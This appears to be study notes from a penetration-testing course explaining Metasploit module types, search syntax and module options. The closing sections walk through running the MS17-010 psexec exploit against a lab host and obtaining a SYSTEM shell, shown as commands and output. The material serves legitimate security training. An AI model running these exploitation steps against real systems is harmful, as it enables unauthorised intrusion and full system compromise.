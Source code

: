 # Modules

## <mark style="color:red;">Modules</mark>

***

Metasploit `modules` are prepared scripts with a specific purpose .The `exploit` category consists of so-called proof-of-concept (`POCs`) that can be used to exploit existing vulnerabilities in a largely automated manner.&#x20;

<mark style="color:green;">**Syntax**</mark>

```shell-session
<No.> <type>/<os>/<service>/<name>
```

<mark style="color:green;">**Example**</mark>

```shell-session
794   exploit/windows/ftp/scriptftp_list
```

<mark style="color:green;">**Index No.**</mark>

The `No.` tag will be displayed to select the exploit we want afterward during our searches. We will see how helpful the `No.` tag can be to select specific Metasploit modules later.

<mark style="color:green;">**Type**</mark>

<table data-header-hidden data-full-width="true"><thead><tr><th></th><th></th></tr></thead><tbody><tr><td><strong>Type</strong></td><td><strong>Description</strong></td></tr><tr><td><code>Auxiliary</code></td><td>Scanning, fuzzing, sniffing, and admin capabilities. Offer extra assistance and functionality.</td></tr><tr><td><code>Encoders</code></td><td>Ensure that payloads are intact to their destination.</td></tr><tr><td><code>Exploits</code></td><td>Defined as modules that exploit a vulnerability that will allow for the payload delivery.</td></tr><tr><td><code>NOPs</code></td><td>(No Operation code) Keep the payload sizes consistent across exploit attempts.</td></tr><tr><td><code>Payloads</code></td><td>Code runs remotely and calls back to the attacker machine to establish a connection (or shell).</td></tr><tr><td><code>Plugins</code></td><td>Additional scripts can be integrated within an assessment with <code>msfconsole</code> and coexist.</td></tr><tr><td><code>Post</code></td><td>Wide array of modules to gather information, pivot deeper, etc.</td></tr></tbody></table>

<mark style="color:green;">**OS**</mark>

The `OS` tag specifies which operating system and architecture the module was created for. Naturally, different operating systems require different code to be run to get the desired results.

<mark style="color:green;">**Service**</mark>

The `Service` tag refers to the vulnerable service that is running on the target machine. For some modules, such as the `auxiliary` or `post` ones, this tag can refer to a more general activity such as `gather`, referring to the gathering of credentials, for example.

<mark style="color:green;">**Name**</mark>

Finally, the `Name` tag explains the actual action that can be performed using this module created for a specific purpose.

***

### <mark style="color:red;">Searching for Modules</mark>

<mark style="color:green;">**MSF - Search Function**</mark>

```shell-session
msf6 > help search

Usage: search [<options>] [<keywords>:<value>]
```

For example, we can try to find the `EternalRomance` exploit for older Windows operating systems. This could look something like this:

***

<mark style="color:green;">**MSF - Searching for EternalRomance**</mark>

{% code fullWidth="true" %}
```bash
msf6 > search eternalromance
```
{% endcode %}

{% hint style="warning" %}
We can also make our search a bit more coarse and reduce it to one category of services. For example, for the CVE, we could specify the year (`cve:<year>`), the platform Windows (`platform:<os>`), the type of module we want to find (`type:<auxiliary/exploit/post>`), the reliability rank (`rank:<rank>`), and the search name (`<pattern>`). This would reduce our results to only those that match all of the above.
{% endhint %}

<mark style="color:green;">**MSF - Specific Search**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
msf6 > search type:exploit platform:windows cve:2021 rank:excellent microsoft
```
{% endcode %}

***

### <mark style="color:red;">Module Selection</mark>

To select our first module, we first need to find one. Let's suppose that we have a target running a version of SMB vulnerable to EternalRomance (MS17\_010) exploits. We have found that SMB server port 445 is open upon scanning the target.

```shell-session
mrroboteLiot@htb[/htb]$ nmap -sV 10.10.10.40
```

We would boot up `msfconsole` and search for this exact exploit name.

<mark style="color:green;">**MSF - Search for MS17\_010**</mark>

```shell-session
msf6 > search ms17_010
```

Next, we want to select the appropriate module for this scenario. From the `Nmap` scan, we have detected the SMB service running on version `Microsoft Windows 7 - 10`. With some additional OS scanning, we can guess that this is a Windows 7 running a vulnerable instance of SMB. We then proceed to select the module with the `index no. 2` to test if the target is vulnerable.

***

### <mark style="color:red;">Using Modules</mark>

Within the interactive modules, there are several options that we can specify. These are used to adapt the Metasploit module to the given environment. Because in most cases, we always need to scan or attack different IP addresses. Therefore, we require this kind of functionality to allow us to set our targets and fine-tune them. To check which options are needed to be set before the exploit can be sent to the target host, we can use the `show options` command. Everything required to be set before the exploitation can occur will have a `Yes` under the `Required` column.

<mark style="color:green;">**MSF - Select Module**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 > use 0
msf6 exploit(windows/smb/ms17_010_psexec) > options
```
{% endcode %}

<mark style="color:green;">**MSF - Module Information**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > info

------------------------------------------------
```
{% endcode %}

After we are satisfied that the selected module is the right one for our purpose, we need to set some specifications to customize the module to use it successfully against our target host, such as setting the target (`RHOST` or `RHOSTS`).

<mark style="color:green;">**MSF - Target Specification**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > set RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

-----
```
{% endcode %}

In addition, there is the option `setg`, which specifies options selected by us as permanent until the program is restarted. Therefore, if we are working on a particular target host, we can use this command to set the IP address once and not change it again until we change our focus to a different IP address.

<mark style="color:green;">**MSF - Permanent Target Specification**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > setg RHOSTS 10.10.10.40

RHOSTS => 10.10.10.40


msf6 exploit(windows/smb/ms17_010_psexec) > options

   Name                  Current Setting                          Required  Description
   ----                  ---------------                          --------  -----------
   
```
{% endcode %}

Once everything is set and ready to go, we can proceed to launch the attack. Note that the payload was not set here, as the default one is sufficient for this demonstration.

<mark style="color:green;">**MSF - Exploit Execution**</mark>

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > run

meterpreter> shell

C:\Windows\system32>
```

We now have a shell on the target machine, and we can interact with it.

<mark style="color:green;">**MSF - Target Interaction**</mark>

```shell-session
C:\Windows\system32> whoami

whoami
nt authority\system
```
